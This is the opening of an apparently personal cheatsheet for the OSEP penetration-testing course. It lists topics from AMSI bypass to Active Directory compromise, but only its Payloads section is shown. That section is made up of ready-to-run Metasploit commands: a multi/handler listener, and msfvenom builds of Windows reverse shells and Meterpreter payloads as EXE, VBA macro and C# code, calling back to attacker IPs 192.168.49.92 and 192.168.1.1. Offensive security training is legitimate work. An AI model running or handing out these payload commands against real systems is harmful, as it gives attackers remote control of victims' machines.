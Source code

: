 ```yaml
---
permalink: /osep.html
title: "OSEP cheatsheet"
---
```


A cheatsheet with useful commands used during my OSEP course.
- [Payloads](#payloads)
- [AMSI](#amsi)
- [Execute](#execute)
- [MSSQL](#mssql)
- [Tunneling](#tunneling)
- [PrivEsc](#privesc)
- [Traversal](#traversal)
- [Linux libraries](#linux-libraries)
- [Active Directory](#active-directory)
  - [Enum](#enum)
  - [Unconstrained delegation](#unconstrained-delegation)
  - [Constrained delegation](#constrained-delegation)
  - [Resource-Based Constrained Delegation](#resource-based-constrained-delegation)
  - [Kerberoasting](#kerberoasting)
  - [Forest enum](#forest-enum)
  - [Forest compromise](#forest-compromise)
  - [Beyond forest enum](#beyond-forest-enum)
- [Enumeration](#enumeration)
- [Windows Defender](#windows-defender)
- [Other](#other)

<hr>
# Payloads
<hr>
Multi handler oneliner with custom certificate
```shell
msfconsole -q -x 'use multi/handler; set payload windows/x64/meterpreter/reverse_https; set HandlerSSLCert /home/kali/worstenbrood.pem; set lhost 192.168.49.92; set lport 443; run'
```

EXE
```shell
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=444 -f exe -o /var/www/html/shell.exe
```

VBA
```shell
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f vbapplication
```

CSharp SharpShooter payload (edit file after creation, remove first line and brackets)
```shell
msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 EnableStageEncoding=True PrependMigrate=True -f csharp -o /var/www/html/payload.txt
```

